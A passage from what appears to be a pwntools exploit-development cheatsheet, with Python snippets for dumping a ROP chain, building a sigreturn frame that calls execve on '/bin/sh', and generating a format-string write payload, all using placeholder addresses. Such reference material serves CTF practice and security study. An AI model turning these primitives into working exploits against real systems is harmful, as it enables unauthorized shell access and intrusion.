 ```py
# converting the rop chain to bytes in order to send it as
# a payload
payload = rop.chain()
```

```py
# printing the rop chain generated by pwn tools
print(rop.dump())
```

[^ Back to top](#file-pwntools-cheatsheet-md)

<a name="srop-and-sigreturn-frames"></a>
## 8. SROP and Sigreturn Frames

```py
# address of a syscall instruction
syscall = 0xdeadbeef

# address of a "/bin/sh" string
bin_sh = 0xcafebabe

# instatiating a sigreturn frame object
frame = SigreturnFrame()

# setting values of registers (set rip as address to return to)
frame.rax = constants.SYS_execve
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
```

```py
# the sigreturn frame will need to be converted to bytes prior
# to being sent as part of a payload
payload = bytes(frame)
```

[^ Back to top](#file-pwntools-cheatsheet-md)


<a name="format-string-exploits"></a>
## 9. Format String Exploits

```py
# the format string offset
offset = 5

# the writes you want to perform
writes = {
    0x40010: 0xdeadbeef,  # write 0xdeadbeef at 0x40010
    0x40018: 0xcafebabe   # write 0xcafebabe at 0x40018
}

# you can use the `fmtstr_payload` function to automatically
# generate a payload that performs the writes you specify
payload = fmtstr_payload(offset, writes)
p.writeline(payload)
```
